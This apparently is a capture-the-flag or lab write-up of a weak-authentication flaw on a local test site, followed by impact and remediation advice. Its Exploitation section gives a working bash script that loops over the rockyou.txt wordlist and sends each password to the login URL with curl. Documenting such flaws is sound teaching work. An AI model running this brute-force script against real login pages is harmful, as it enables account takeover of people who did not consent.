

# Weak Authentication / Brute Force

## Description

The login page has **no protection against repeated attempts**, allowing an attacker to try many passwords without restriction, making brute force attacks possible.


## Exploitation

A script can be used to test passwords from a list (`rockyou.txt`) automatically:

```bash id="x7r2ms"
#!/bin/bash

fichier="/usr/share/wordlists/rockyou.txt"
user="admin"
url="http://192.168.56.4/?page=signin"

while read -r password
do
    echo "Testing password: $password"

    response=$(curl -s "$url&username=$user&password=$password&Login=Login")

    if echo "$response" | grep -q "flag"
    then
        echo "Password found: $password"
        break
    fi

done < "$fichier"
```
## Impact
- Accounts can be compromised via brute force
- Sensitive data, including flags, may be exposed
  
## Remediation
- Enforce strong passwords
- Temporarily lock accounts after multiple failed attempts
- Consider adding CAPTCHA or multi-factor authentication
  
## Conclusion

This issue highlights that insufficient login protections make brute force attacks feasible and can lead to account compromise.


